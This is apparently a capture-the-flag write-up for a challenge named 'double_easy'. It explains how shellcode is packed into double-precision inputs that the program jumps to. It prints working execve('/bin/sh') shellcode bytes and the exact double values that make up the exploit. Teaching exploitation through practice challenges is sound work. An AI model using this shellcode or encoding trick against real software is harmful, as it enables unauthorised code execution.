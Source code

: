 # double_easy
This is simple but yet in my opinion fun enough task.

![](/images/random_tasks/double_easy/08.png)

At the begging we see mmap is getting called. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 

![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp to address from rax.

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

![](/images/random_tasks/double_easy/07.png)

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.

![](/images/random_tasks/double_easy/04.png)

I used following shellcode:

![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280

00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42

BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195

FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186

5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284

![](/images/random_tasks/double_easy/06.png)